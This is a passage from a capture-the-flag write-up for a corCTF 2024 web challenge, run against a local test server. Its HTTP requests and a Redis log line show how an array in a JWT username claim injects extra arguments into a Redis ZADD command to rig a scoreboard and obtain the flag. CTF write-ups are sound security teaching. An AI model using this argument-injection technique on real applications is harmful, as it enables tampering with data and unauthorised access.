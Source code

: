 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729194936.png)

Then, use the new `session` cookie to **lose** once in the game at POST route `/play`:

```http
POST /play HTTP/1.1
Host: localhost:8080
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6WyJkdW1teV91c2VybmFtZSIsMTMzNywiZmxhZ191c2VybmFtZSJdLCJnYW1lIjoiYzMxNWFiMzQ1MDVlMjA4ZiIsImlhdCI6MTcyMjI1MzY4N30.Y9hb-dnr-jPv7xU7LiUcd-WPWq3PTxXBjBzsFondsdc
Content-Type: application/json
Content-Length: 15

{
  "position": ""
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729195144.png)

**In our Redis log, we should see this:**
```
1722253842.766544 [0 172.18.0.3:45722] "zadd" "scoreboard" "0" "dummy_username" "1337" "flag_username"
```

As you can see, the `ZADD` command sets score `0` to `dummy_username`, score `1337` to `flag_username`.

If we check the scoreboard, we should be able to see username `flag_username` has score `1337`: 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729195330.png)

Nice! We can try to **get the flag at GET route `/flag`**.

But before we do that, make sure our JWT's `username` claim is `flag_username`:

```http
POST /new HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Content-Length: 28

{
  "username":"flag_username"
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729195558.png)

```http
GET /flag HTTP/1.1
Host: localhost:8080
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImZsYWdfdXNlcm5hbWUiLCJnYW1lIjoiNWE4OGViYWUzNDBiZmI5YSIsImlhdCI6MTcyMjI1NDExNH0.pJ133i6k0bAAJ3yw-2NWJIGZVF_1gt_CEai6P4Ryjzc


```
